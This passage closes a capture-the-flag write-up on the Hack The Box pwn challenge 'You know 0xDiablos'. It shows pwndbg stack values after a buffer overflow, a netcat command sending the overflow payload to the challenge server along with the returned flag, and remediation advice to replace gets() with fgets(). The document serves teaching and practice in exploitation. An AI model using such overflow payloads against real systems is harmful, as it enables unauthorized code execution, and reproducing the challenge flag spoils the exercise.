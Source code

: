 ► f 0 0x8049246 flag+100                    
  f 1 0x42424242                            
  f 2 0xdeadbeef                            
  f 3 0xc0ded00d                            
  f 4    0x300                              
────────────────────────────────────────────────────────────────────────────────

pwndbg> x/4x $ebp                          

0xffffd01c\:     0x41414141      0x42424242      0xdeadbeef      0xc0ded00d
{% endhighlight %}

Consequently, the if statement discussed earlier in the [Ghidra](#h.ihree4tnkztp) section will run true. After piping the malicious string into netcat, the flag.txt file located within the server is printed out.

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $nc 159.65.54.50 31449 < eip_flag  
You know who are 0xDiablos\: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ  
HTB{0ur_Buff3r_1s_not_healthy}┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $
{% endhighlight %}

Conclusion
==========

* * *

The binary in question was vulnerable to a buffer overflow attack due to the lack of boundary checks performed on user input. The deprecated gets() function was used within the binary despite the security warnings that are associated with it. As a result, memory could be overwritten resulting in behavior that the binary was not written to perform. The following remediations should be strongly considered\:

*   Never use the deprecated gets() function

*   Usage of this function creates the possibility for security risks that could allow malicious actors to run arbitrary code

*   Use the secure fgets() function

*   This function reads user input until a newline character is found or until the buffer gets filled

The aforementioned remediations should be observed as soon as possible. Until this binary is patched, the service running on port 31449 should be disabled.

* * *

[[1]](#ftnt_ref1) [https\://www.gnu.org/software/gdb/](https\://www.google.com/url?q=https\://www.gnu.org/software/gdb/&sa=D&source=editors&ust=1653862543264892&usg=AOvVaw2WG82PXaT9xLvUVSxNsry4) 

[[2]](#ftnt_ref2) [https\://github.com/NationalSecurityAgency/ghidra](https\://www.google.com/url?q=https\://github.com/NationalSecurityAgency/ghidra&sa=D&source=editors&ust=1653862543264457&usg=AOvVaw3kUKvphtd395QkJ0zU_s9p) 

[[3]](#ftnt_ref3) [https\://man7.org/linux/man-pages/man3/gets.3.html](https\://www.google.com/url?q=https\://man7.org/linux/man-pages/man3/gets.3.html&sa=D&source=editors&ust=1653862543263762&usg=AOvVaw1WeTWTgKm-gKvE0D5cStuy)
